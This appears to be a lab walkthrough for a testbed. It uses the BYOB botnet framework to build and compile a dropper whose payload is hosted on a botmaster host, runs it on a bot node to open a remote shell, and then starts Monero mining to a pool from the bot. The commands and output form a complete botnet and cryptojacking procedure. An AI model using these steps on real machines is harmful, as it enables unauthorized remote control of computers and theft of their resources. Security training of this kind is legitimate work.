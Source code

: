 ## Mining Attack
Botmaster (`botmaster` in our case) uses bot nodes (`b1` in our case)to mine Monero cryptocurrency. 

### Connection with client

We will use the `botmaster` node to generate a client. The client will have a ransomware
module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 miner
```
The output should look like this:

```shell


88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[>] Modules
        Adding modules...  -[-] can't add module: 'exfiltrate' (does not exist)
(4 modules added to client)

[>] Imports
        Adding imports...-(32 imports from 4 modules)

[>] Payload
        Uploading payload...  -(hosting payload at: http://botmaster.infra:1338/clients/payloads/jIJ.py)

[>] Stager
        Uploading stager... -(hosting stager at: http://botmaster.infra:1338/clients/stagers/jIJ.py)

[>] Dropper
        Writing dropper...  (355 bytes written to /modules/clients/droppers/byob_jIJ.py)
        Compiling executable...
91 INFO: PyInstaller: 6.4.0, contrib hooks: 2024.1
91 INFO: Python: 3.9.2
.
.
.
19652 INFO: Appending PKG archive to custom ELF section in EXE
19714 INFO: Building EXE from EXE-00.toc completed successfully.
(22,541,192 bytes saved to file: /opt/byob/byob/dist/jIJ)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/jIJ b1.infra:
```

Lastly, startup the server
```shell
python3 -u server.py
```
The server should start and should start a prompt as follows:

```shell
88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[?]  Hint: show usage information with the 'help' command

[rishitsaiya @ /opt/byob/byob]>
```

Parallely, SSH to the b1 node from your XDC through different terminal
```shell
ssh b1
```
Execute the payload from here
```shell
./jIJ
```

At this point, the server should display a message like:
```shell
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

Connect with the bot node using
```shell
shell 0
```
You can verify the socket connection by typing `ls` at prompt in server to check.

#### Monero Blockchain Synchronization
Before the actual mining starts, the blockchain consisting of Monero Ledger needs to be synchronized. This is of a significant size and can take hours to fetch onto our node. It is to be noted that the entire mining environment setup will be done on `b1` node, because it is the node which does the actual mining. The environment setup is done with these references - [Documentation](https://www.getmonero.org/resources/user-guides/verification-allos-advanced.html) & [Walkthrough Video](https://youtu.be/wMY_Sx3o26k?si=n3eNpRYwcr-rGTRC).


#### Synchronization on b1 node
On `b1` node where the CLI is setup, type the command:

```shell
rishitsaiya@b1:~$ cd monero-x86_64-linux-gnu-v0.18.3.1/
rishitsaiya@b1:~$ sudo ./monerod --data-dir=. --log-file=monero.log
```

It should look something like as follows:
```bash
2024-03-04 20:18:05.805 I Monero 'Fluorine Fermi' (v0.18.3.1-release)
2024-03-04 20:18:05.805 I Initializing cryptonote protocol...
2024-03-04 20:18:05.805 I Cryptonote protocol initialized OK
2024-03-04 20:18:05.806 I Initializing core...
2024-03-04 20:18:05.806 I Loading blockchain from folder ./lmdb ...
2024-03-04 20:18:05.932 I Loading checkpoints
2024-03-04 20:18:05.932 I Core initialized OK
2024-03-04 20:18:05.932 I Initializing p2p server...
2024-03-04 20:18:05.938 I p2p server initialized OK
2024-03-04 20:18:05.938 I Initializing core RPC server...
2024-03-04 20:18:05.938 I Binding on 127.0.0.1 (IPv4):18081
2024-03-04 20:18:05.939 I core RPC server initialized OK on port: 18081
2024-03-04 20:18:05.941 I Starting core RPC server...
2024-03-04 20:18:05.941 I core RPC server started ok
2024-03-04 20:18:05.941 I Starting p2p net loop...
2024-03-04 20:18:06.942 I 
2024-03-04 20:18:06.942 I **********************************************************************
2024-03-04 20:18:06.942 I The daemon will start synchronizing with the network. This may take a long time to complete.
2024-03-04 20:18:06.942 I 
2024-03-04 20:18:06.942 I You can set the level of process detailization through "set_log <level|categories>" command,
2024-03-04 20:18:06.942 I where <level> is between 0 (no details) and 4 (very verbose), or custom category based levels (eg, *:WARNING).
2024-03-04 20:18:06.942 I 
2024-03-04 20:18:06.942 I Use the "help" command to see the list of available commands.
2024-03-04 20:18:06.942 I Use "help <command>" to see a command's documentation.
2024-03-04 20:18:06.942 I **********************************************************************
.
.
.
2024-03-04 20:22:54.160 I 
2024-03-04 20:22:54.160 I **********************************************************************
2024-03-04 20:22:54.160 I You are now synchronized with the network. You may now start monero-wallet-cli.
2024-03-04 20:22:54.160 I 
2024-03-04 20:22:54.160 I Use the "help" command to see the list of available commands.
2024-03-04 20:22:54.160 I **********************************************************************
```
Note that it can take several hours. You can make this run in the background by adding `--detach` flag to the command mentioned above (not recommeded as you don't come to know about synchronization progress in real time and will have to navigate through the log for that.)

#### Monero Wallet Setup
After the synchronization is complete, the wallet is to be setup as follows:

```shell
rishitsaiya@b1:~/monero-x86_64-linux-gnu-v0.18.3.1$ ./monero-wallet-cli 
This is the command line monero wallet. It needs to connect to a monero
daemon to work correctly.
WARNING: Do not reuse your Monero keys on another fork, UNLESS this fork has key reuse mitigations built in. Doing so will harm your privacy.

Monero 'Fluorine Fermi' (v0.18.3.1-release)
Logging to ./monero-wallet-cli.log
Specify wallet file name (e.g., MyWallet). If the wallet doesn't exist, it will be created.
Wallet file name (or Ctrl-C to quit): discern
Wallet and key files found, loading...
Wallet password: 
```
After entering the password, the wallet prompt appears as follows:

```shell
Opened wallet: 42Mt2HmeN9SfMsMqidujg...u8D
**********************************************************************
Use the "help" command to see a simplified list of available commands.
Use "help all" to see the list of all available commands.
Use "help <command>" to see a command's documentation.
**********************************************************************
Starting refresh...
Refresh done, blocks received: 2973                             
Untagged accounts:
          Account               Balance      Unlocked balance                 Label
 *       0 42Mt2H        0.000000000000        0.000000000000       Primary account
------------------------------------------------------------------------------------
          Total          0.000000000000        0.000000000000
Currently selected account: [0] Primary account
Tag: (No tag assigned)
Balance: 0.000000000000, unlocked balance: 0.000000000000
Background refresh thread started
[wallet 42Mt2H]: address
0  42Mt2HmeN9SfMsMqidujg...u8D  Primary address 
```

The public address can be picked up from here. Other wallet commands can be used as refered in the [Monero Wallet Documentation](https://www.getmonero.org/resources/user-guides/monero-wallet-cli.html).

#### Joining a Mining Pool
Before the mining begins, you need to join a pool. For current demo, we have chosen [Hashvault Mining Pool](https://monero.hashvault.pro/en/getting-started).

#### Mining Instructions at the botmaster node
The mining can be made to start through the `botmaster` node with byob through the following command:

```shell
miner run pool.hashvault.pro 80 42Mt2HmeN9SfMsMqidujg...u8D
```
The mining starts here. 


#### Appendix
There is a backup of the `lmdb/` on the XDC. `lmdb` is the monero transaction ledger database which acts as a database storage for the fetched blockchain up until when it was copied. It can be treated a backup recovery point and then can start synchronization again to avoid fetching the whole blockchain again. 

The command is used on **XDC** to mirror the image of database is as follows

```shell
rsync -a rishitsaiya@b1:/home/rishitsaiya monero-x86_64-linux-gnu-v0.18.3.1/lmdb /home/rishitsaiya/
```
The `lmdb` database can found at `/home/rishitsaiya/` location on XDC.